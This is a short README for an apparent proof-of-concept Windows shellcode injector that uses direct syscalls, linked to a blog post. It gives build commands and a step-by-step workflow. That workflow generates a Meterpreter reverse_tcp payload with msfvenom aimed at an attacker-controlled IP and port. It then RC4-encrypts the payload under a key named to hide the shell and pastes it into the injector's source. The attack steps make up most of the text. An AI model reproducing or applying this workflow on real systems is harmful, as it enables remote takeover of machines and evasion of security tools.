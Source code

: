 # AutoSyscall

The code for the shellcode injector from my blog post.

This code is a PoC and will probably only run of windows 10 x64 version 1909, this is because of the syscall numbers changing between versions. To fix, change the syscall number of line 16 in `syscalls.asm` with the corresponding number for that windows version. They can be found [here](https://j00ru.vexillium.org/syscalls/nt/64/).

## Install & Build

```
git clone https://github.com/bats3c/DefensiveInjector
cd DefensiveInjector
make
```

## Using different shellcode

- ##### Generate your shellcode either with msfvenom or something else
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin`

- ##### Encrypt the shellcode
    Keeping in mind that if you change it here you will need to update the key on line 132 in `main.c`
    `cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin`

- ##### Format the shellcode
    Run `xxd -i encmeter.bin` then replace everything between line 10-60 with the output

## Dependencies

```
sudo apt install mingw-w64 nasm python
```
